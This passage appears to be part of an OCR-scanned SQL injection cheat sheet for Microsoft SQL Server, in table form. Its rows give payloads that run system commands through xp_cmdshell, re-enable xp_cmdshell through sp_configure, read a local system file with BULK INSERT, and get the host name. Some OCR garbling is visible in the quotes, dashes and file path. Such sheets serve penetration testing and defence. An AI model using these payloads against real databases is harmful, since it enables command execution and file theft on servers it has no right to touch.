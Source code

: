 | Command Execution            | EXEC xp_cmdshell ‘net user’; — privOn MSSQL 2005 you may need to reactivate xp_cmdshell first as it’s disabled by default:  <br>EXEC sp_configure ‘show advanced options’, 1; — priv  <br>RECONFIGURE; — priv  <br>EXEC sp_configure ‘xp_cmdshell’, 1; — priv  <br>RECONFIGURE; — priv                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| Local File Access            | CREATE TABLE mydata (line varchar(8000));  <br>BULK INSERT mydata FROM ‘c:boot.ini’;  <br>DROP TABLE mydata;                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| Hostname, IP Address         | SELECT HOST_NAME()                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |